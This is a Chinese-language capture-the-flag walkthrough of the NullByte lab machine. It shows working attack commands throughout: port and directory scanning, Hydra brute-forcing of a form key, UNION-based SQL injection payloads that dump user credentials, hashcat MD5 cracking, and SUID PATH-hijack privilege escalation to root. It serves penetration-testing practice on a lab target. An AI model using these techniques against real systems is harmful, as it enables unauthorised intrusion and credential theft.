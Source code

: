 # NullByte 靶场

## 主机发现

```
sudo nmap -sn 10.10.10.10
```

![[Pasted image 20250508234837.png]]

靶机的主机为 10.10.10.7

## 服务识别

使用 nmap 对靶机进行扫描，寻找靶机开放的端口以便于进行更进一步的渗透测试

扫描开放的端口
```
sudo nmap --min-rate 10000 -p- 10.10.10.7
```

![[Pasted image 20250508235112.png]]

扫描开放端口的基本信息，并将结果保存到本地以便于随时观看
```
sudo nmap -sT -sC -sV -p80,111,777,48675 10.10.10.7 -oA nmap/Scan
```

![[Pasted image 20250508235518.png]]

使用 nmap 进行默认的漏洞脚本扫描，并将结果保存到本地
```
sudo nmap --script=vuln -p80,111,777,48675 10.10.10.7 -oA nmap/Script
```

经过分析发现靶机运行的是 Apache 服务；
777 端口运行的是 SSH 服务，

暂时没有新的发现，先访问 80 端口

## WEB渗透

### 80 端口渗透

打开 80 页面发现只有一张图片和一句话

![[Pasted image 20250508235428.png]]

查看源码发现这是一个 gif 文件，把他下载下来

```
wget http://10.10.10.7/main.git
```

### 目录爆破

使用 gobuster 执行目录爆破，尝试发现新的目录

```
sudo gobuster dir -u http://10.10.10.7 -w /usr/share/dirb/wordlists/common.txt

```

![[Pasted image 20250509000034.png]]

逐个尝试发现只有 /phpmyadmin 是能访问的，并且这是一个 sql 管理后台登入界面。

尝试弱密码和万能密码登入均无效，暂时放弃。

### gif 寻找信息

拿到 gif 图片，先使用 strings 查看有没有有价值的字符串

```
strings main.gif
```

发现 kzMb5nVYJw 这个字符串很可疑，可能有突破的价值

![[Pasted image 20250509000536.png]]

继续使用 Exiftool 发掘 gif 剩余价值

```
exiftool main.gif
```

![[Pasted image 20250509000751.png]]

Comment 处写着 kzMb5nVYJw ，说明这串字符串极有可能是突破口，使用 hash-identifier 没有识别出来是什么加密，单串字符串是账号密码的可能性也不大，因此尝试作为地址能不能有新发现

![[Pasted image 20250509001118.png]]

查看源码

![[Pasted image 20250509001252.png]]

提示这个密码不复杂

### Hydra 破解 hash

输入框尝试弱密码 admin 报错

![[Pasted image 20250509001432.png]]

查看网络发现这是一个 post 请求，使用 Hydra 对 hash 进行破解

```
sudo hydra -l "key" -P /usr/share/wordlists/rockyou.txt 10.10.10.7 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```

 1. **路径**：`/kzMb5nVYJw/index.php`（表单提交地址）。
    
2. **参数**：`key=^PASS^`（将 `^PASS^` 替换为字典中的密码）。
    
3. **失败标记**：`invalid key`（服务器返回的错误提示文本）。

![[Pasted image 20250508214915.png]]

得到密码是 elite ，
登入后发现是一个 sql 查询

## sql 注入

输入 admin 发现提示寻找成功

![[Pasted image 20250509002207.png]]

尝试过后发现注入点为 " ，
进行测试发现字段为 3 ，
输出点为 
`" union select 1,2,3 -- -`
中的 3 ，
完整的测试代码如下

```
"

" or 1=1 -- -

" order by 3 -- -

" union select 1,2,3 -- -

" union select 1,2,version() -- -

" union select 1,2,database() -- -

" union select 1,2,user() -- -

" union select 1,2,TABLE_SCHEMA from INFORMATION_SCHEMA.tables -- -

" union select 1,2,table_name from INFORMATION_SCHEMA.tables -- -

" union select 1,2,column_name from INFORMATION_SCHEMA.columns where table_name='users' -- -

" union select 1,2,user from users -- -

" union select 1,2,pass from users -- -

" union select 1,2,position  from users -- -
```

在完整地测试过后在 users 中的 pass 里发现一串 base64 （base64 更多凭经验判断， hash-identifier 无法识别），

![[Pasted image 20250509002812.png]]

解密后得到一串字符串
`c6d6bd7ebf806f43c76acc3681703b81`

使用 hash-identifier 发现是 MD5 加密，使用 hashcat 破解它

```
vim hash/hash.lst

sudo hashcat -m 0 -a 0 hash/hash.lst /usr/share/wordlists/rockyou.txt
```

解密出来
`c6d6bd7ebf806f43c76acc3681703b81:omega`

## Linux 提权

使用 ssh 登入靶机

```
sudo ssh ramses@10.10.10.7 -p777 
```

查看历史记录

```
history
```

![[Pasted image 20250508230256.png]]

发现 /var/www 目录可能藏着提权的文件，
根据提示进行操作

```
cd /var/www
cd backup/
ls
cat readme.txt
```

![[Pasted image 20250509003404.png]]

没什么价值，差看文件权限

```
ls -liah
```

![[Pasted image 20250509003501.png]]

提示文件可能有 s 位执行权限，查看含有 s 位执行权限的文件

```
find / -perm -u=s -type f 2>/dev/null
./procwatch
```

![[Pasted image 20250509003630.png]]

果然有，运行查看结果

![[Pasted image 20250509003701.png]]

SUID 环境变量提权

```
ln -s /bin/sh ps

export PATH=.:$PATH

echo $PATH

./procwatch 
```

拿到 root 权限

![[Pasted image 20250509003911.png]]

## 总结

这台靶机不难，新手可以用来梳理思路